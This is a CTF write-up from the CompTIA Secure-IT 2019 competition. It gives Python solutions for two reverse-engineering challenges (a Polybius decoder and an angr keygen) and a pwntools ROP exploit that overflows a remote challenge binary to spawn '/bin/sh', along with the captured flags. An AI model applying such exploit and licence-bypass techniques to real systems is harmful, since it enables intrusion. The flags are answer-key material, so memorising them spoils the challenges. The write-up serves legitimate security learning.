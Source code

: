 ```yaml
---
layout : default
---
```


# CompTIA Secure - IT 2019
06-10-2019

I secured first place in this CTF :)

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/score.JPG)

## Secure Password (RE)

I analysed the binary and got the following key character mapping. According to this matrix, 11=a 12=b 13=c etc.

```
  1  2  3  4  5
1 a  b  c  d  e
2 f  g  h i/j k
3 l  m  n  o  p
4 q  r  s  t  u
5 v  w  x  y  z
```

```py
flag_chars = "abcdefghijklmnopqrstuvwxyz"
chars_mapping = ['11', '12', '13', '14', '15', '21', '22', '23', '24', '24', '25', '31', '32', '33', '34', '35', '41', '42', '43', '44', '45', '51', '52', '53', '54', '55']

given = "3254431513454215214533134424343324433344431513454215"
tmp = [given[i]+given[i+1] for i in range(0, len(given), 2)]

flag = ''.join(flag_chars[chars_mapping.index(i)] for i in tmp)

print flag
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/secure_flag.JPG)

FLAG: CTFHUB{mysecurefunctionisntsecure}

## Keygen me (RE)

We need to fulfil some constraints to find a valid key for this software.

```py
import angr
import claripy

p = angr.Project("/bin/true")
state = p.factory.entry_state()
STRLEN = 45
flag_nums = [claripy.BVS("flag_%d" % i, 32) for i in range(STRLEN)]

summm = 0
a = "CTFHUB-"
for i in range(len(a)):
	flag_nums[i] = ord(a[i])

for i in range(0, 45):
	state.solver.add(flag_nums[i] >= 33,flag_nums[i] <= ord("z"))
	summm += flag_nums[i]

state.solver.add(summm == 1769)


flag = [state.solver.eval(i) for i in flag_nums]

print flag[::]

print ''.join(chr(i) for i in flag)
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/keygen.JPG)

FLAG: CTFHUB{dat_w4s_BaD_l1c3ns3_ch3ck}

## Babybof (PWN)

This was simple ret2func exploit.

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/babybof_flag.JPG)

FLAG: CTFHUB{dat_w4s_just_w4RmuP}

## SuperROP (PWN)

```py
from pwn import *


#r = process("./superrop")
r = remote('165.22.223.31', 9000)

print r.read()


payload = 'A'*56
payload += p64(0x400596) # pop rdi, ret
payload += p64(0x400658) # /bin/sh string
payload += p64(0x400577) # run_cmd address

r.sendline(payload)
r.interactive()
```

![Branching](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/comptia/rop_flag.JPG)

FLAG: CTFHUB{da_r0p_g0es_skkkkrrrt}

---
